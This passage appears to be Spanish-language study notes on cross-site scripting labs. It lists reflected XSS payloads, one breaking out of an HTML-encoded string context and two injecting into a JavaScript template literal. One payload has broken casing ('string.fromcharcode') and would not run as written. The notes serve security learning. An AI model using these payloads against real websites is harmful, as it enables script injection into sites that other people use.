 payload:

```html
&apos;-alert(1)-&apos;
```

esto como website nos mostrara un `alert()`

### (contexts) Reflected XSS into a template literal with angle brackets, single, double quotes, backslash and backticks Unicode-escaped

```javascript
${alert(1)}

${alert(string.fromcharcode(88,83,83))} //XSS
```

